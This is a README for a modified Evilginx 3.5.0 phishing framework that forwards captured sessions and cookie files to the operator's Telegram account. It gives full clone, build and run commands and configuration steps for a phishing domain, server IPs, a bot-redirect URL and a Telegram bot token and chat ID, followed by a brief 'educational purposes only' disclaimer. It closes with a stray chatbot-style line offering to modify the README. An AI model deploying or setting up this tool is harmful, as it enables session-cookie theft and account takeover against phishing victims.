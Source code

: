 ```markdown
# Evilginx 3.5.0 - Modified By Itwizardo

This is a modified version of Evilginx 3.5.0 that includes functionality to send
sessions to your Telegram account, including the cookies file,
it also has the new Gophish intergration and bug fixes.
```
## Ubuntu Installation

To install Evilginx 3.5.0 - Modified By Itwizardo on Ubuntu, follow these steps:

1. Clone the repository:

```bash
git clone https://github.com/itwizardo/evilginx2telegram.git
```

2. Navigate to the cloned directory:

```bash
cd evilginx2telegram
```

3. Install dependencies:

```bash
go get
```

4. Build the project:

```bash
go build
```

5. Make the executable:

```bash
make
```

6. Navigate to the build directory:

```bash
cd build
```

7. Set permissions for the Evilginx executable:

```bash
chmod +rwx evilginx
```

8. Run Evilginx:

```bash
./evilginx -p ../phishlets/
```

## Configuration Setup

Before using Evilginx, you need to set up your configuration. Follow these steps:

1. Set the domain:

```
config domain something.com
```

2. Set the external server IP:

```
config ipv4 external serverip
```

3. Set the server IP to bind to:

```
config ipv4 bind serverip
```

4. Set the unauthenticated URL:

```
config unauth_url https://bots.here.redirected.com/
```

5. Set autocert to on or off:

```
config autocert on/off
```

6. Set up the Telegram webhook:

```
config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58O/15604540690
```

Replace `7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58O` with your Telegram token.

Replace `15604540690` with your Chat id.

## Telegram Guide

Here's a guide on how to set up Telegram for Evilginx:

### How to Get Chat ID

1. Go to Telegram and search for `@raw_data_bot`.
2. Start a conversation with the bot.
3. The bot should provide you with your chat ID.

### How to Get Token

1. Go to Telegram and search for `@BotFather`.
2. Start a conversation with the bot by sending `/start`.
3. Follow the instructions to create a new bot and get your Telegram token.

**For Educational Purposes Only:**

Evilginx 3.5.0 - Modified By Itwizardo is intended for educational purposes only. Any use of this tool for malicious or illegal activities is strictly prohibited. The developers and contributors are not responsible for any misuse of this tool.

```

Feel free to modify this README as needed for your repository! Let me know if you need further assistance.
```
